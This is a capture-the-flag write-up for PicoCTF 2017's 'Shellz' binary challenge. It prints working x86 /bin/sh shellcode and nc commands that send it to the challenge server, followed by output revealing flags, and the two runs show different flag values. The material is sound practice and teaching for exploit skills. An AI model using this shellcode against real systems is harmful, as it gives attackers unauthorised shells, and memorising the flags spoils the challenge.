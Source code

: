 # PicoCTF_2017: Shellz

**Category:** Binary
**Points:** 55
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up
The biggest problem with this challenge is the limited amount of shellcodes that would actually work here. It probably took me like 15 tries before I got the [correct shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php). So first, prepare the payload.

    python -c "print('\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > payload

Then, use the payload like this

    cat payload - | nc shell2017.picoctf.com 12562
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 40 bytes:
    ls
    flag.txt
    shellz
    shellz_no_aslr
    xinetd_wrapper.sh
    cat flag.txt
    a15898b0a97abc19164f240407d6c51b

or 

	(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 23459
	My mother told me to never accept things from strangers
	How bad could running a couple bytes be though?
	Give me 40 bytes:
	ls
	flag.txt
	shellz
	shellz_no_aslr
xinetd_wrapper.sh
cat flag.txt
5b5ba2c3b5558ec86315fd52b0c55a87

Therefore, the flag is `a15898b0a97abc19164f240407d6c51b`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTk1NTI0Mzk2NiwtNDQ3MzUyNzRdfQ==
-->